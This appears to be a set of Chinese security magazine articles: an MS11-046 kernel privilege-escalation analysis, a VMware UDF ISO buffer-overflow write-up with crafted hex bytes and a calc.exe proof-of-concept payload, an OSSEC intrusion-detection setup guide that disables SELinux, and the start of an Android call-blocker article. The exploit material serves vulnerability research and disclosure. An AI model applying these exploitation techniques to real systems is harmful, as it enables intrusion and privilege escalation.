触发该漏洞可以在 connect 连接之前对 NtDeviceIoControlFile 进行 Hook，如发现 IOCTL 号是 0x12007，则修改输出缓冲区指针。这里把输出缓冲区指针指向 HalDispatchTable 表。先来看一下 HalDispatchTable 表，如图 6 所示。

```text
lkd> dd haldispatchtable
80545a38 ...
```

图 6

把输出缓冲区指针改为 `0x80545A3C`（即 “HalDispatchTable + 4”）。结果会导致 HalDispatchTable 表的更改，更改之后的 HalDispatchTable 表如图 7 所示。原 “HalDispatchTable + 4” 处的值 `0x806E5BBA` 已经变为 `0x00000000`。然后向 `0x00000000` 地址写入内核提权 ShellCode，再调用 ZwQueryIntervalProfile 函数即可提升权限。

为什么调用 ZwQueryIntervalProfile 函数就可以执行 ShellCode 呢？如图 8 所示为 KeQueryIntervalProfile 函数在 WinDbg 中的反汇编代码。

```text
lkd> dd haldispatchtable ...（修改后）
```

图 7

```text
nt!KeQueryIntervalProfile+0x29 ...
call dword ptr [nt!HalDispatchTable+0x4]


```

图 8

其中，`call dword ptr [nt!HalDispatchTable+0x4] (80545A3C)` 正好运行我们刚写入的 ShellCode，成功提权，如图 9 所示。
图 9

本文主要对 MS11-046 本地权限提升漏洞的问题函数位置、漏洞原理及相应函数调用关系进行较为详尽的分析，同时给出漏洞利用方法及利用代码（利用代码已在 Windows XP sp2/sp3 测试通过）。（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：汇编

关键词：虚拟机，VMware，溢出

## VMware UDF 文件缓冲区溢出
文/sccventuregroup　译/后悉

2011 年 10 月 5 日，VMware 发布了题为 “VMware hosted products address remote code execution vulnerability” 的安全公告。不过，VMware 并没有向笔者发出感谢，笔者决定公布这个漏洞的技术细节。笔者认为所有漏洞的补丁已经发布了，因此这篇文章不会给合法的 VMware 产品用户带来影响。

| Application | VMware Workstation 7.1.3 |
|---|---|
| Build | 324285 |
| File | vmwarebase.dll |
| Version | 7.1.3.14951 |
| Imagebase | 0x11101000 |

函数 UDF_Open（sub_112E00D0）是漏洞的原因。根据 http://www.osta.org/specs/pdf/udf260.pdf：DVD 的逻辑扇区大小和逻辑块大小应当是 2048 字节。开发者在栈上为实际的扇区分配了 0x800（2048）字节的空间：

### 起因

笔者的一个朋友 Yevgeniy 在使用 ISO 镜像文件安装 Win7 系统时，注意到 VMware Workstation 7.0.0 会在检测 OS 的过程中发生崩溃现象。当更新 VMware 版本到 7.1.1 后这个问题不复存在。但是当对新版本进行更深入的研究后（针对 7.1.1 和 7.1.3 版本），笔者发现在解析 UDF 文件类型的 ISO 文件时仍然存在严重的问题。

```text
.text:112E00E6    push    7FFh
.text:112E00EB    mov     edi, eax
.text:112E00ED    lea     eax, [ebp+var_81F]
# 在栈中分配 0x800 字节空间
.text:112E00F3    push    0
.text:112E00F5    push    eax
.text:112E00F6    mov     [ebp+Buffer], 0
.text:112E00FD    call    memset
...
movzx eax, [ebp+var_749]
movzx ecx, [ebp+var_74A]
movzx edx, [ebp+var_74B]
...
shl eax, 8
or  eax, ecx
...
```

### 结论

VMware 产品易于安装的特性，使用户能够在新建虚拟机向导完成后直接自动安装客户机操作系统。当用户选取一个安装光盘（DVD 或者 CD）或者 ISO 镜像文件后，安装向导就会尝试去检测这个操作系统。在检测操作系统时，当 VMware 解析 “Logical BlockSize > 2048” 的 UDF 类型 ISO 文件时漏洞就会出现。利用攻击程序，当用户根据用户上下文启动 VMware 产品并试图从恶意 ISO 文件安装新的虚拟操作系统时，攻击者可以在受影响主机上执行任意代码。

### 技术细节

| OS | Win (32bit) |
|---|---|

```asm
.text:112E028B    or    eax, edx
.text:112E028D    shl   eax, 8
.text:112E0290    or    eax, ecx
.text:112E0292    mov   [edi], eax
# 将 LogicalBlockSize = 0xA00 替换为 0x800
```

VMware 从 ISO 文件读取 LogicalBlockSize 大小的字节数存储到分配的缓冲区：

```asm
.text:112E0423        mov   eax, [edi]      # 0xA00
.text:112E0425        push  0
.text:112E0427        push  eax             ; nNumberOfBytesToRead
.text:112E0428        lea   ecx, [ebp+Buffer]
# 分配栈大小（0x800）
.text:112E042E        push  ecx             ; lpBuffer
.text:112E042F        lea   eax, [edi+38h]
.text:112E0432        push  eax
.text:112E0433        call  Ordinal76
# 从文件中读取 0xA00 字节然后写到缓冲区中... 溢出!!! 控制栈
```

因为攻击者可以控制栈的内容，也就是说，可以控制程序执行流程：

```asm
.text:112E0516    pop   edi
.text:112E0517    pop   esi
.text:112E0518    xor   eax, eax
.text:112E051A    pop   ebx
.text:112E051B    mov   esp, ebp
.text:112E051D    pop   ebp
.text:112E051E    retn  # 返回到任意设定的地址
```

Linux 版本的 VMware 产品存在同样的问题。漏洞利用代码可以在打开并安装制作好的 ISO 文件来安装系统时触发：

- 1. File -> New -> Virtual Machine.
- 2. New Virtual Machine Wizard 会打开。
- 3. 然后：
  - 第一页选择 “Typical”，第二页选择 “Installer disc image file (ISO)”；
  - 或者
  - 第一页选择 “Custom”，第二页不重要，第三页选择 “Installer disc image file (ISO)”。
- 4. 然后用户就需要选择制作的 ISO 文件。
- 5. Proof of Concept。

为了制作特定的 ISO 文件，我们修改一个正常的 ISO 文件，因为正常的 ISO 文件对于通过几个验证是必需的。例如：[*所有的偏移都是十六进制]。为了通过下个验证：

```asm
.text:112E0175    lea   edx, [ebx+3]
.text:112E0178    lea   esi, [ebp+Buffer]
.text:112E017E    call  sub_112DFA50
ISO 文件必须有如下字节：
```

```text
Offset      0 1 2 3 4 5 6 7 8 9 A B C D E F
00080000    "02 00"  02 00  "74"  00 00 00  18 66 F0 01 00 01 00 00

"02 00" - 特征
"74"    - 特征校验
```

解码器也要读取和验证下一个字节：

```text
Offset      0 1 2 3 4 5 6 7 8 9 A B C D E F
00080010    00 80 00 00 01 01 00 00  00 80 00 00 13 01 00 00

要读取不正常的逻辑块大小，我们需要通过下一个验证：
.text:112E0251    lea   edx, [eax+6]
.text:112E0254    lea   esi, [ebp+Buffer]
.text:112E025A    call  sub_112DFA50
```

```text
Offset      0 1 2 3 4 5 6 7 8 9 A B C D E F
00081000    "06 00"  02 00  "B4"  00 00 00  33 C7 AE 01 02 01 00 00

"06 00" - 特征
"B4"    - 特征校验
```

```asm
读取逻辑块大小：
.text:112E0267    movzx eax, [ebp+var_749]
.text:112E026E    movzx ecx, [ebp+var_74A]
.text:112E0275    movzx edx, [ebp+var_74B]
.text:112E027C    shl   eax, 8
.text:112E027F    or    eax, ecx
.text:112E0281    movzx ecx, [ebp+var_74C]
```

```text
Offset      0 1 2 3 4 5 6 7 8 9 A B C D E F
000810D0    00 00 00 23  "00 0A 00 00"  00 2A 4F 53 54 41 20 55

然后 VMware 从第一个逻辑块中读取的缓冲区（大小 0x800）发生溢出，本例中开始处：
Offset      0 1 2 3 4 5 6 7 8 9 A B C D E F
00098000    00 01 02 00 E6 00 00 00  83 6F F0 01 00 00 00 00
```

为了不被下一个逻辑块的内容覆写栈，我们改变 0x100 为 0x101：

```text
Offset      0 1 2 3 4 5 6 7 8 9 A B C D E F
00098000    "01" 01 02 00 E6 00 00 00  83 6F F0 01 00 00 00 00

这样下一个验证就会失败：
.text:112E0443    mov  edx, 100h
.text:112E0448    lea  esi, [ebp+Buffer]
.text:112E044E    call sub_112DFA50
```

```asm
程序就会执行到：
.text:112E051D    pop   ebp
.text:112E051E    retn
```

```text
PAYLOADS:
Windows (32 and 64 bit) [WindowsISO]
Offset      0 1 2 3 4 5 6 7 8 9 A B C D E F
00098820    50 00 00 00 D8 5A 11 11  00 00 00 00 00 00 00 00
00098830    00 00 00 00 01 00 00 00  00 00 00 00 00 00 00 00
00098840    00 00 00 00 30 C1 46 11  88 DD 45 11 88 DD 45 11
00098850    00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00
...
00098860    00 00 00 00 00 00 00 00  43 00 3A 00 5C 00 5C 00  ...C.:.\.
00098870    57 00 69 00 6E 00 64 00  6F 00 77 00 73 00 5C 00  W.i.n.d.o.w.s.\.
00098880    5C 00 73 00 79 00 73 00  74 00 65 00 6D 00 33 00  \.s.y.s.t.e.m.3.
00098890    32 00 5C 00 5C 00 63 00  61 00 6C 00 63 00 2E 00  2.\.c.a.l.c.
000988A0    65 00 78 00 65 00 00 00  00 00 00 00 00 00 00 00  e.x.e.
```

D8 5A 11 11 = 0x11115AD8 — 设定的地址：  
.text:11115AD8    push edi      ; lpApplicationName  
.text:11115AD9    call ds:CreateProcessW

edi 指向字符串 “C:\Windows\system32\calc.exe” 存储在栈中。

30 C1 46 11 = 0x1146C130 — 它指向数组 `'\x00\x00\x00...'`（被用作 pStartupInfo）。

```text
88 DD 45 11 = 0x1145DD88 — 它指向数组
'\x44\x00\x00...'（被用作 pProcessInfo）

因此函数 CreateProcessW 会被调用，参数如下：
04E1FCB4  04E1FCF8  1116   |ModuleFileName = "C:\\Windows\\system32\\calc.exe"
04E1FCB8  00000000  ....   |CommandLine = NULL
04E1FCBC  00000000  ....   |pProcessSecurity = NULL
04E1FCC0  00000000  ....   |pThreadSecurity = NULL
04E1FCC4  00000001  ....   |InheritHandles = TRUE
04E1FCC8  00000000  ....   |CreationFlags = 0
04E1FCCC  00000000  ....   |pEnvironment = NULL
04E1FCD0  00000000  ....   |CurrentDir = NULL
04E1FCD4  1146C130  0BF    |pStartupInfo = vmwareba.1146C130
04E1FCD8  1145DD88  E3E    |pProcessInfo = vmwareba.1145DD88


```

### 感谢

非常感谢 Yevgeniy Grushko，帮助我研究并确认了这个漏洞。

前置知识：无

关键词：OSSEC、入侵、检测
## 利用 OSSEC 构建自己的入侵检测系统

文/图 zsf

### 前言

上期为大家介绍了在较多 Linux 环境下构建自己的审计系统，这期带来的将是 Windows 与 Linux 并存环境下如何构建自己的入侵检测系统（IDS）。

现在的 IDS 系统可以分为基于网络数据包分析的系统（NIDS）和基于主机分析的系统（HIDS）两种基本方式。简单地讲，NIDS 主要是在网络上对数据包进行抓取和根据特定的规则来匹配相应的数据包，并做出一些报警等系列反应，典型代表有 Snort；而 HIDS 则主要基于主机，在主机上对网络连接、敏感进程行为以及系统审计日志进行智能分析和判断，通过相应的规则来匹配攻击特征并做出一些报警等系列反应。IDS 除了报警还可以有一些主动响应的动作，这样演变出 IPS。今天我们要构建的是 HIDS，因为我们需要更加深入地了解机器的安全状况，而不仅仅是在网络上抓包匹配特征码。

OSSEC 是一款开源的基于主机的入侵检测系统，包括日志分析、文件/注册表完整性检测、安全策略监控、rootkit 检测、实时报警、动态响应等功能。其最大优势在于它支持很多操作系统，包括 Linux、MacOS、Solaris、HP-UX、AIX 和 Windows。更多信息，请访问 OSSEC 的官方网站：http://www.ossec.net/

### 方案分析

HIDS 需要在被监控的机器上安装 Agent 来达到一些目的，比如检测文件完整性、分析日志等。

在单台机器上，我们只需直接安装 OSSEC 成 local 类型就可以了，有点类似于我们的单机版杀毒软件；在机器比较多的情况下，我们还可以做成 C/S 型，即让被监控的机器装 Agent，然后将一些信息收集上来发到 Server 端，然后在 Server 端统一分析、响应，这个有点类似于我们的网络版杀毒软件。这就是我们的基本方案，而 OSSEC 也支持这种部署方式。

### 方案实施

#### 环境准备

- 服务器环境：Red Hat Enterprise Linux Server release 5.6（64 位）
- IP：192.168.14.207
- 从 OSSEC 官方网站 http://www.ossec.net 下载 OSSEC 源代码至 /usr/local/src 目录。
- Linux 客户端环境：Red Hat Enterprise Linux Server release 5.5（32 位）
- IP：192.168.14.167
- 同上，只需下载 OSSEC 源代码到 /usr/local/src 目录。
- Windows 客户端环境：Windows 2003 R2
- IP：192.168.14.162
- 从 OSSEC 官方网站 http://www.ossec.net 下载 OSSEC 的 Windows Agent 版本到桌面。

#### 安装服务端

OSSEC 服务端的搭建过程比较简单，但是它不能安装在 Windows 系统上，Windows 系统只有 Agent，所以我们需要将服务端安装在 Linux 机器上。下载 OSSEC 源码包回来后进行解压，解压后有个 INSTALL 文件，是教你如何安装的。以下为安装 OSSEC 的操作：

```bash
cd /usr/local/src/
wget http://www.ossec.net/files/ossec-hids-2.5.1.tar.gz
tar xzvf ossec-hids-2.5.1.tar.gz
```

```bash
cd ossec-hids-2.5.1
./install.sh
```

直接执行 `./install.sh` 就可以安装了，照着提示一步步操作。

第一步是选择语言，提供了中文支持，所以可以选 `cn`。当然，如果你的 SSH 客户端显示乱码，则需要调整或者选 `en` 也可以。以下为相应提示及选择项（去掉了中间空白行）：

- OSSEC HIDS v2.5.1 安装脚本 - http://www.ossec.net
- 你将开始 OSSEC HIDS 的安装。
- 请确认在你的机器上已经正确安装了 C 编译器。
- 如果你有任何疑问或建议，请给 dcid@ossec.net（或 daniel.cid@gmail.com）发邮件。
- 系统类型: Linux as5664bisec 2.6.18-238.el5。
- 用户: root。
- 主机: as5664bisec。
- 按 ENTER 键继续或 Ctrl-C 键退出。

- 你希望哪一种安装（server, agent, local or help）？Server。
- 选择了 Server 类型的安装。
- 正在初始化安装环境。
- 请选择 OSSEC HIDS 的安装路径 [/var/ossec]:
- OSSEC HIDS 将安装在 /var/ossec。
- 正在配置 OSSEC HIDS。
- 你希望收到 e-mail 告警吗？(y/n) [y]: y
- 请输入你的 e-mail 地址？testa@gmail.com。
- 我们找到你的 SMTP 服务器为：alt2.gmail-smtp-in.l.google.com。
- 你希望使用它吗？(y/n) [y]: y
- 使用 SMTP 服务器：alt2.gmail-smtp-in.l.google.com。
- 你希望运行系统完整性检测模块吗？(y/n) [y]: y
- 系统完整性检测模块将被部署。
- 你希望运行 rootkit 检测吗？(y/n) [y]: y
- rootkit 检测将被部署。
- 关联响应允许你在分析已接收事件的基础上执行一个已定义的命令。例如，你可以阻止某个 IP 地址的访问或禁止某个用户的访问权限。

更多的信息，你可以访问：http://www.ossec.net/en/manual.html#active-response。

- 你希望开启联动（active response）功能吗？(y/n) [y]: y。
- 关联响应已开启。
- 默认情况下，我们开启了主机拒绝和防火墙拒绝两种响应。
- 第一种情况将添加一个主机到 `/etc/hosts.deny`。
- 第二种情况将在 iptables（Linux）或 ipfilter（Solaris、FreeBSD 或 NetBSD）中拒绝该主机的访问。
- 该功能可以用以阻止 SSHD 暴力攻击、端口扫描和其他一些形式的攻击。同样你也可以将它们添加到其他地方，例如将它们添加为 snort 的事件。
- 你希望开启防火墙联动（firewall-drop）功能吗？(y/n) [y]: n。
- 防火墙联动（firewall-drop）被关闭。
- 联动功能默认的白名单是：202.96.128.86。
- 你希望添加更多的 IP 到白名单吗？(y/n) [n]: y。
- 请输入 IP（用空格进行分隔）：192.168.70.26 192.168.14.156 10.10.33.37。
- 你希望接收远程机器 syslog 吗（port 514 udp）？(y/n) [y]: n。
- 远程机器 syslog 将不被接收。
- 设置配置文件以分析以下日志：
  - `/var/log/messages`
  - `/var/log/secure`
  - `/var/log/maillog`
- 如果你希望监控其他文件，只需要在配置文件 `ossec.conf` 中添加新的一项。
- 任何关于配置的疑问你都可以在 http://www.ossec.net 找到答案。
- 按 ENTER 键以继续。
- 中间按了回车之后是一堆信息，编译 OSSEC，就不贴了。
- 系统类型是 RedHat Linux。
- 修改启动脚本使 OSSEC HIDS 在系统启动时自动运行。
- 已正确完成系统配置。
- 要启动 OSSEC HIDS：

`/var/ossec/bin/ossec-control start`

- 要停止 OSSEC HIDS：

`/var/ossec/bin/ossec-control stop`

- 要查看或修改系统配置，请编辑：

`/var/ossec/etc/ossec.conf`

感谢使用 OSSEC HIDS。如果你有任何疑问、建议或发现 bug，请通过 `contact@ossec.net` 或邮件列表 `ossec-list@ossec.net` 联系（http://www.ossec.net/en/mailing_lists.html）。

- 为使代理能够连接服务端，需要将每个代理添加到服务器。
- 可使用 `manage_agents` 添加或删除代理：

`/var/ossec/bin/manage_agents`

安装 OSSEC 过程中会创建 OSSEC 账号；若 Linux 将 `/etc/shadow` 锁定会影响后续步骤。先将服务端运行起来，执行 `/var/ossec/bin/ossec-control start` 后会输出：

```bash
[root@as5664bitsec ossec-hids-2.5.1]#
/var/ossec/bin/ossec-control start
Starting OSSEC HIDS v2.5.1...
... INFO: Reading local decoder file.
Started ossec-maild...
Started ossec-execd...
Started ossec-analysisd...
Started ossec-logcollector...
Started ossec-remoted...
Started ossec-syscheckd...
Started ossec-monitord...
Completed.
```

这些都是 OSSEC 模块：如 `maild` 发邮件、`analysisd` 分析日志、`logcollector` 读取日志、`remoted` 接收远程日志等。

服务端需接收客户端数据，因此要开放端口。默认有 UDP 1514 端口用于客户端连接。检查是否开启：

```bash
[root@as5664bisec ~]# netstat -nlpu | grep 1514
```

若无输出则存在问题。可分析日志 `/var/ossec/logs/ossec.log` 查找原因，示例如下：

```text
2011/06/11 17:46:27 ossec-remoted(...): ERROR: Authentication key file '/etc/client.keys' not found.
2011/06/11 17:46:27 ossec-remoted(...): ERROR: No remote connection configured. Exiting.
2011/06/11 19:04:55 os_sendmail(...): WARN: RCPT TO not accepted by server.
2011/06/11 19:04:55 ossec-maild(...): ERROR: Error sending email ...
```

`remoted` 与远程接收有关，提示 `/etc/client.keys` 不存在，需要创建客户端并生成该文件。

```bash
[root@as5664bitsec ossec-hids-2.5.1]# /var/ossec/bin/manage_agents
****************************************
* OSSEC HIDS v2.5.1 Agent manager      *
* (A)dd an agent, (E)xtract key, (L)ist,
* (R)emove, (Q)uit                     *
****************************************
Choose your action: A
Name: test1
IP Address: 192.168.14.162
ID: 001
Confirm adding it? y
Agent added.
```

客户端管理程序功能包括：添加客户端、分配 KEY、列出客户端、删除客户端、退出等。

随后 stop 再 start，可看到 1514 端口已监听：

```bash
[root@as5664bitsec ossec-hids-2.5.1]# netstat -nlpu | grep 1514
udp 0 0 0.0.0.0:1514 0.0.0.0:* 4452/ossec-remoted
```

说明服务正常。启动时可 `tail -f /var/ossec/logs/ossec.log` 观察测试规则、加载规则、监控目录、读取日志等过程，以便深入理解 OSSEC 工作原理。

#### 安装 Linux 客户端

服务端安装成功后，接下来安装 Linux 客户端。

Linux 客户端安装和服务端是一样的，只是在 `./install.sh` 安装过程中提示的时候填写 `agent` 就好了，步骤如下。安装过程中的关键信息如下：

```bash
cd /usr/local/src/
wget http://www.ossec.net/files/ossec-hids-2.5.1.tar.gz
tar xzvf ossec-hids-2.5.1.tar.gz
cd ossec-hids-2.5.1
./install.sh
```

- 你希望哪一种安装（server, agent, local or help）？`agent`
- 选择了 Agent（client）类型的安装。
- 正在初始化安装环境。
- 安装路径：`/var/ossec`
- 正在配置 OSSEC HIDS。
- 服务器 IP：`192.168.14.207`
- 系统完整性检测模块：(y/n)[y]: y
- rootkit 检测：(y/n)[y]: y
- 联动功能 active response：(y/n)[y]: n
- 日志文件示例：`/var/log/messages`、`/var/log/secure`、`/var/log/maillog`
- 如需监控其他文件，在 `ossec.conf` 添加配置项。
- 可在 http://www.ossec.net 查找配置问题答案。

你必须首先将该代理添加到服务端以使它们能够相互通信。之后可运行 `manage_agents` 工具导入服务端产生的认证密钥。

```bash
/var/ossec/bin/manage_agents
```

根据上面的提示，我们需要先在服务端创建一个客户端，然后在客户端导入密钥，才能让客户端正确与服务端通信。再看下分配 KEY 的操作：

```text
******** OSSEC HIDS v2.5.1 Agent manager ********
(A)dd an agent
(E)xtract key for an agent
(L)ist already added agents
(R)emove an agent
(Q)uit

Choose your action: E
Available agents:
  ID: 001, Name: test1, IP: 192.168.14.162
  ID: 002, Name: test2, IP: 192.168.14.167
Provide the ID of the agent: 002
Agent key information for '002' is:
MDAyI...MTk=

# client side
[root@xxx ossec-hids-2.5.1]# /var/ossec/bin/manage_agents
(I)mport key from the server
(Q)uit
Choose your action: I
Paste it here: MDAyI...MTk=
Agent information:
  ID:002
  Name:test2
  IP Address:192.168.14.167
Confirm adding it?(y/n): y
Added.
```

导入密钥之后，重启 OSSEC：`/var/ossec/bin/ossec-control start`。然后可查看日志 `/var/ossec/logs/ossec.log` 是否异常：

```text
2011/06/11 20:53:45 ossec-agentd(4101): WARN: Waiting for server reply (not started). Tried: '192.168.14.207'.
2011/06/11 20:54:05 ossec-agentd: INFO: Trying to connect to server (192.168.14.207:1514).
2011/06/11 20:54:15 ossec-agentd(1218): ERROR: Unable to send message to server.
```

上面日志说明无法连接服务器，很可能是防火墙导致，排除后即可看到后续正常日志。

```text
2011/06/11 20:55:29 ossec-agentd(4101): WARN: Waiting for server reply (not started). Tried: '192.168.14.207'.
2011/06/11 20:56:25 ossec-agentd: INFO: Trying to connect to server (192.168.14.207:1514).
2011/06/11 20:56:28 ossec-agentd(4102): INFO: Connected to the server (192.168.14.207:1514).
```

表明已经成功连上服务端的 1514 端口，同时在服务端看日志也能看到客户端连上来的信息：

```text
2011/06/11 20:09:54 ossec-remoted(1409): INFO: Authentication file changed. Updating.
2011/06/11 20:09:55 ossec-remoted(1410): INFO: Reading authentication keys file.
2011/06/11 20:09:55 ossec-remoted: INFO: No previous counter available for 'test1'.
2011/06/11 20:09:55 ossec-remoted: INFO: Assigning counter for agent test1: '0:0'.
2011/06/11 20:09:55 ossec-remoted: INFO: No previous sender counter.
2011/06/11 20:09:55 ossec-remoted: INFO: Assigning sender counter: 0:0
```

在服务端可以随时看客户端的状态，如下：

```bash
[root@as5664bitsec ossec-hids-2.5.1]#
/var/ossec/bin/agent_control -l
OSSEC HIDS agent_control. List of available agents:
ID: 000, Name: as5664bitsec (server), IP: 127.0.0.1, Active/Local
ID: 001, Name: test1, IP: 192.168.14.162, Never connected
ID: 002, Name: test2, IP: 192.168.14.167, Active


```

表明 192.168.14.167 这台客户端处于活跃状态，而 192.168.14.162 则还没有连接过，我们接下来在这台 Windows 机器上安装客户端。

#### 安装 Windows 客户端

在 Windows 上安装客户端更加容易，下载安装包直接双击，一直下一步就可以了。安装过程中有个地方可以让你选择分析的日志，如图 1 所示。
图 1

默认会监控 IIS 的日志以及打开完整性检查，在没有 IIS 的机器上自然不需要开启。另外建议在 Web 访问量大的情况下也不要勾选 IIS 日志。安装完之后运行 OSSEC，会出现个小窗口让你填写服务端 IP 以及分配的 KEY，如图 2 所示。
图 2

填上信息后点 Save，然后可以点 Manage 菜单下的 Restart。这个时候也可以点 View 菜单里的 View Logs 来看日志，看 OSSEC 是否正常工作，我们看到如下信息：

```text
2011/06/11 21:13:51 ossec-agent: INFO: Started (pid: 4004).
```

说明已经连上服务端，而且 agent 会分析系统日志，包括系统、应用程序、安全日志。这也意味着我们如果想利用好 OSSEC，得在 Windows 机器上开启审核策略，这样就会有比较详细的系统日志。点击 View 菜单下的 View Config，则可以看到客户端相关的配置，比如监控与忽略的目录、注册表项等情况。在服务端上我们可以看到该客户端目前处于活跃状态：

```bash
[root@as5664bitsec ossec-hids-2.5.1]#
/var/ossec/bin/agent_control -l
OSSEC HIDS agent_control. List of available agents:
ID: 000, Name: as5664bitsec (server), IP: 127.0.0.1, Active/Local
ID: 001, Name: test1, IP: 192.168.14.162, Active
ID: 002, Name: test2, IP: 192.168.14.167, Active
```

#### 安装 Web 管理界面

当客户端连上服务端的时候，就会把日志送到服务端，而 OSSEC 会对这些日志进行解码、分析、匹配相应的规则，产生相应的动作，比如发邮件报警、主动响应等。在 `/var/ossec/logs/alerts` 目录是一些报警的日志文件。通过在服务器上查看日志、执行命令来看客户端是否掉线、是否有安全事件发生，非常不直观。不过不用担心，一些重要的事件 OSSEC 会发邮件报警的，如图 3 所示。

图 3

另外，OSSEC 提供了一个 Web 界面，它会自动实时刷新显示最新的日志，显示主机状态，而且方便查询过往的信息。我们在服务端安装它，步骤如下：

```bash
wget http://www.ossec.net/files/ui/ossec-wui-0.3.tar.gz
tar xzvf ossec-wui-0.3.tar.gz
cd ossec-wui-0.3
cat README
```

解压之后的 README 会告诉你如何安装这个，其实它就是一些 PHP 文件，你需要搭建个 Web Server 来运行 PHP 就可以了。我们直接用 yum 或 apt 安装 Apache 和 PHP 就好了，安装它们不是我们的重点。

将 ossec-wui 目录的文件移到 Apache 的目录，我这里是 `/var/www/html` 目录，然后我们编辑 `/etc/group`，将 `ossec::500:` 改为 `ossec:x:500:apache`，注意我们这里的 Apache 是以 apache 用户运行，所以才这样写，可能你的机器上是 www 用户，或者 nobody 用户。改完之后，重启一下 Apache，然后再去用浏览器访问 `http://192.168.14.207/ossec`，看是否正常。注意，如果出现 `Unable to access ossec directory`，基本上与权限、机器开了 SELinux 设置有关，设置一下就好（注意修改 SELINUX 需要重启生效）。

```bash
chown ossec:ossec -R /var/www/html/ossec
sed -i 's/SELINUX=enforcing/SELINUX=disabled/g' /etc/selinux/config
```

OSSEC 的 Web 界面效果如图 4 所示。

图 4

可以看到显示当前有哪些 agent 机器，以及最近发生的事件。由于是刚搭好的环境，所以右边的 Latest modified files 这里是空的，因为完整性检测不是实时的，有一定频率，等检测到变化，这里会显示有哪些文件发生变化。我们主要关注的是 events，其中有 level 表明等级，用来表明事件的重要程度，比如一条普通的事件和一条敏感的事件其 level 肯定不同，而 OSSEC 也是根据 level 来判断是否发邮件报警的。还有一些其他的功能，比如查询、文件/注册表完整性检查等都可以利用。

### 测试入侵检测系统

入侵检测系统到这里就搭好了，我们来简单测试一下效果，看是否能实时显示或报警。

#### Linux 系统远程 SSH 登录失败

我们模拟黑客利用 SSH 远程登录我们的 `192.168.14.167` 这台装有 OSSEC 的机器，用户 root，密码不断尝试，也会被我们的 IDS 抓到，如图 5 所示。

图 5

当然，这里的 sshd 需要进行安全加固，比如禁止 root 直接登录、允许几次尝试失败就断开等设置，就不多说了，这里只做演示。

#### Windows 远程桌面登录失败

同样地，我们模拟黑客企图用远程桌面连接 `192.168.14.162` 这台机器，再试弱密码，会被我们的 IDS 发现，在 Web 界面上会有如图 6 所示的信息。

图 6

#### Linux 添加删除用户测试

我们尝试在 Linux 上建一个用户 toor，然后设置个密码，然后将这个用户删除。同样地，在 IDS 上也会出现一些信息，截图如图 7 所示。

图 7

当然，我们也可以进行其他测试，比如安装后门、rootkit 等，我们会发现 HIDS 也会有一些动作，比如发现文件变化、可疑端口与文件等。

#### Windows 添加删除修改用户

我们尝试在 Windows 上加个用户 hacker，OSSEC 的 Web 界面上马上就出现了如图 8 所示的信息。

图 8

而我们给这个 hacker 用户修改密码、删除这个用户、修改本地安全策略、安装卸载软件等，均会在 IDS 上有相应的事件信息展示，就不一一列举了。

### 方案小结与改进

这套基于主机的入侵检测系统基本上就搭建起来了，但这套方案存在些许缺点，小结如下。

- 客户端安装每次都要在服务端生成个 KEY，然后在客户端导入 KEY，大批量机器部署工作量会比较大，即不方便批量部署。
- OSSEC 内置了许多默认策略，但默认策略在真实环境下跑的话，会收到许多报警邮件。OSSEC 的规则需要根据你的情况进行优化，在适当情况下还需要编写自己的规则。
- OSSEC 的报警邮箱设置不提供 SMTP 认证的 username 和 password 选项，而网络上的邮件服务器都关闭了 open relay 功能，所以在使用上存在麻烦。本文中使用的是 Gmail 邮箱，它不需要认证就可以发送，这也是 Gmail 存在大量垃圾邮件的原因。较好的解决办法是在 OSSEC 服务器上装 MTA，限制只能本机发送。
- OSSEC 通过 netstat 检测端口寻找 rootkit 的时候存在 bug，会导致在某些服务器上存在大量误报。

OSSEC 提供了一种框架与思路，你可以根据自己的需要进行扩展，也可以提出自己的解决方案，比如网上有类似的 OSSEC+Splunk 插件等。

还是那句话，安全是一个过程，需要有事前防范、事中监控、事后审计。

前置知识：无

关键词：Android，来电，防火墙

## Android 手机上来电防火墙的设计与实现

图/文 masepu

随着移动通信网络的高速发展和手机性能的不断提升，手机已不再是一种功能单一的通信工具。越来越多拥有强大功能的智能手机在迅速普及和应用。它们具有独立的操作系统，像个人电脑一样支持用户自行安装软件、游戏等第三方提供的程序，并可通过此类程序不断对手机的功能进行补充。然而这些性能堪比电脑、有着丰富功能的手机在全球热卖的同时，其安全问题也日益凸显。据权威报告显示，截至 2010 年 2 月，我国移动电话用户已达 7.66 亿。2010 年前三季度我国智能手机的销量已超过 3400 万部。智能手机市场规模在超过年均 20% 的速度扩大。目前发布的一份《2010 年中国手机安全报告》显示，2010 年手机病毒总数超过 2500 种，同比增长 193%，累计感染手机 800 万部以上。上述这些数据都说明手机特别是智能手机的安全问题将是今后网络安全领域中最为关注的问题。因此学习和了解当前流行的手机操作系统，关注手机等智能设备的安全问题，如何设计并开发出手机相关的安全软件，是我们当前就应该重点关注和研究的问题。本文的目的是通过介绍当前非常流行和优秀的智能手机操作系统 Android 下的软件开发方法和过程，来开发一个简单的手机来电防火墙程序，以实现对指定来电号码拒接电话的功能。

手机来电防火墙的原理是在手机接收到信号通知后查询黑名单列表来决定是挂断还是振铃，也就是把原本的人工手工挂断做了一个自动化，即自动挂断，所以黑名单上人物来电时均显示的是忙音。要开发 Android 手机来电防火墙，就首先要了解 Windows 下 Android 手机软件的开发环境。当前市场上主流的智能手机操作系统有以下几种：塞班 Symbian 操作系统、Android 操作系统、iPhone OS 操作系统、Windows Mobile 操作系统和 BlackBerry 操作系统等。其中塞班操作系统已经面市很长时间，现在已经相当成熟，但与其他操作系统相比，竞争力不强，大部分应用于诺基亚的智能手机中。最有活力的是 Android 操作系统，它是 Google 开发的基于 Linux 平台的开源手机操作系统。目前市场占有率第二，它也是移动开发的热门系统，最被程序员们看好。

Android 软件开发所用的语言是 Java，开发工具是 Eclipse+JDK+Android SDK+ADT。其中 Eclipse 是一个开放源代码的、基于 Java 的可扩展开发平台。JDK（Java Development Kit）是 Sun 针对 Java 的开发工具包。Android SDK 是 Android 专用的软件开发工具包。ADT（Android Development Tools）是一款用于开发 Android 应用程序的 Eclipse 插件。最后，如果没有真机测试的话还要安装 AVD，全称是 Android Virtual Device（Android 模拟器）。搭建步骤如下。

### 1. 安装 JDK（Java Development Kit）

